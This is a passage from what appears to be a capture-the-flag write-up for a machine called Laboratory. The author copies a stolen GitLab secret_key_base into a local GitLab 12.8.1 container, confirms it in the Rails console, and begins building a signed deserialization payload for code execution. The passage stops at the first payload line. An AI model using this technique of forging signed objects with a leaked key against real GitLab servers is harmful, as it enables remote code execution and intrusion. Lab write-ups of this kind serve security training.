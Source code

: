 To update the `secret_key_base`, I’ll add it to `/etc/gitlab/gitlab/rb` inside the container:

```

root@d80815a5b502:/# echo "gitlab_rails['secret_key_base']='3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8e
bb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3'" >> /etc/gitlab/gitlab.rb 
root@d80815a5b502:/# gitlab-ctl reconfigure
Starting Chef Client, version 14.14.29
resolving cookbooks for run list: ["gitlab"]
Synchronizing Cookbooks:
  - gitlab (0.0.1)  
  - postgresql (0.1.0)
...[snip]...
    * ruby_block[wait for grafana service socket] action run (skipped due to not_if)
     (up to date)

Running handlers:
Running handlers complete
Chef Client finished, 2/687 resources updated in 07 seconds
gitlab Reconfigured!

```

I’ll start the `irb` console, and note that the `secret_key_base` variable is updated to match the one from Laboratory:

```

root@d80815a5b502:/# gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)
irb(main):001:0> Rails.application.env_config["action_dispatch.secret_key_base"]
=> "3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3"

```

This is the key that is used to sign serialized objects so that a user can’t tamper with them. Because I have it, I can now generate my own serialized payload and the server will trust it and deserialize it, which is a path to code execution.

I’ll build a payload using the steps from the [HackerOne report](https://hackerone.com/reports/827052):

```

irb(main):002:0> request = ActionDispatch::Request.new(Rails.application.env_config)
```